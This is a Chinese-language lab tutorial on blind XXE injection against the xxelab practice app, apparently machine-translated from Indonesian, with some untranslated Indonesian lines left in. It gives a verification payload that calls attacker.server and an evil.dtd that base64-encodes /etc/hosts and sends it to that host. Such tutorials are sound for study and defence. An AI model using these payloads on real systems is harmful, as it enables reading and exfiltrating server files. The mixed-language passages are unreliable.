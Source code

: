 顾名思义，它是`blind`，意思是解析结果或数据不会被显示，要看到数据，必须进行*过滤*才能看到/读取数据。

对于盲测实验室，XXE 仍然使用 xxelab，但源略有变化，回声部分被删除，因此结果不会显示为响应。

```
echo "Sorry, $email is already registered!";‌
```

# 盲 XXE 验证

在做*盲人 XXE* 注射之前，最好先核实一下，这个网站是否真的容易受到*盲人 XXE* 的攻击。验证是非常容易的，因为你只需要使用一个外部实体，该实体具有一个包装器或协议，该包装器或协议根据目标使用的技术栈支持远程源，如 HTTP、FTP 或其他协议，因为一些协议/包装器默认情况下不启用，还有一些包装器只在某些编程语言上工作，例如，只存在于 **Java** 中的`netdoc://`包装器(其行为类似于`file://`)。

**有效载荷验证:**

```
<!DOCTYPE root [<!ENTITY % test SYSTEM "http://attacker.server:2121">%test;]><?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % test SYSTEM "http://attacker.server:2121">%test;]><root><name>test</name><tel>021212</tel><email>test</email><password>pwd</password></root>
```

‌

如果你得到了来自目标服务器的响应，这意味着你可以确定目标容易受到*盲 XXE* 的攻击。

![](img/db520ac58cf63edb2deacd14fa21c792.png)

# OOB·XXE

如果目标已被验证，并收到指示易受 XXE 攻击的响应，下一步就是*泄漏*您想要读取的数据。‌

远程 dtd nya bernama `evil.dtd` disimpan di 服务器攻击者，isi nya:

名为`evil.dtd`的远程 DTD 存储在攻击者的服务器上，其内容有:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts"><!ENTITY % all "<!ENTITY % send SYSTEM 'http://attacker.server:2121/?%file;'>">
```

Payload diatas，filenya 创建了一个 php base64 包装器，用于处理`whitespace`过滤数据中的空白字符`libxml` php url 不支持空白字符。

上面的有效负载，文件使用了一个 *base64* PHP 包装器，目标是避免您想要过滤的数据中的空白字符(\s，\t，\n)，因为 the url 的`libxml`不能包含空白字符。
